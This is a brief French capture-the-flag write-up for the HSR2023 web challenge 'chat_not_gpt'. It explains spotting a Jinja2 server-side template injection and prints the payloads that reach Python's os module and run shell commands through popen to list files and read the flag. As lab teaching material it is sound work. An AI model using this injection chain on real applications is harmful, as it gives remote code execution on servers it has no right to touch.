 
# Code source:

Voir https://github.com/9hozt/ctf-challenges/tree/main/HSR2023/web/chat_not_gpt

# Résolution

Nous avons une partie statique correspondant à la question posée et une partie dynamique correspondant à notre input.
De là, on suspecte une *template injection*. Les plus courantes étant sur Jinja2 (Python), on essaie d'accéder en premier lieu à des objets python.

Premier payload:

```
{{config.class.dict}}
```

Second payload:

```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os}}
```

De là, nous pouvons éxécuter du code:

```
.popen("ls").read() 
```

On n'a plus qu'à se déplacer et afficher le flag avec un cat.

![](./ssti.png)
